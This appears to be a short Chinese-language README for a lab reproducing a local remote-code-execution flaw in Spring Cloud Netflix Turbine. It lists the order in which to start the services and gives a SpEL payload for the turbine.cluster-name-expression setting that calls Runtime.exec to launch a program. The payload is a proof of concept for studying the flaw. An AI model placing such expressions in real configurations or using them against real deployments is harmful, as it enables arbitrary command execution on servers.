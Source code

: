 # spring-cloud-starter-netflix-turbine

启动顺序:

1. 启动registry
2. 启动servicea,serivceb
3. 启动dashboard
4. 启动turbine

## 本地RCE

等待片刻时间，会触发turbine下application.yml中的turbine.cluster-name-expression表达式

```
turbine.cluster-name-expression=T(Runtime).getRuntime().exec('calc')
```

